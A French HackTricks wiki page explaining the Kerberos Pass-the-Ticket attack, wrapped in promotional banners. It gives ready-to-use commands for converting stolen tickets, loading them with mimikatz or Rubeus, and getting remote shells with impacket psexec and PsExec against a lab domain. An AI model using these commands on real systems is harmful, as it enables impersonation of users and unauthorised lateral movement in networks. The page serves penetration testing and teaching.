 # Pass the Ticket

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert Red Team AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Utilisez [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) pour construire et **automatiser facilement des workflows** alimentés par les outils communautaires les plus avancés au monde.\
Accédez dès aujourd'hui :

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Pass The Ticket (PTT)

Dans la méthode d'attaque **Pass The Ticket (PTT)**, les attaquants **volent le ticket d'authentification d'un utilisateur** au lieu de leur mot de passe ou de leurs valeurs de hachage. Ce ticket volé est ensuite utilisé pour **usurper l'identité de l'utilisateur**, en obtenant un accès non autorisé aux ressources et services au sein d'un réseau.

**Lire** :

* [Récolte de tickets depuis Windows](../../network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows.md)
* [Récolte de tickets depuis Linux](../../network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-linux.md)

### **Échange de tickets Linux et Windows entre plateformes**

L'outil [**ticket\_converter**](https://github.com/Zer1t0/ticket\_converter) convertit les formats de ticket en utilisant simplement le ticket lui-même et un fichier de sortie.
```bash
python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi

python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```
### Attaque Pass-The-Ticket

En Windows [Kekeo](https://github.com/gentilkiwi/kekeo) peut être utilisé.

{% code title="Linux" %}
```bash
export KRB5CCNAME=/root/impacket-examples/krb5cc_1120601113_ZFxZpK
python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="Windows" %}
```bash
#Load the ticket in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi"
.\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi
klist #List tickets in cache to cehck that mimikatz has loaded the ticket
.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```
{% endcode %}

## Références

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Utilisez [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) pour construire et **automatiser facilement** des flux de travail alimentés par les outils communautaires les plus avancés au monde.\
Accédez dès aujourd'hui :

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge HackTricks AWS)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
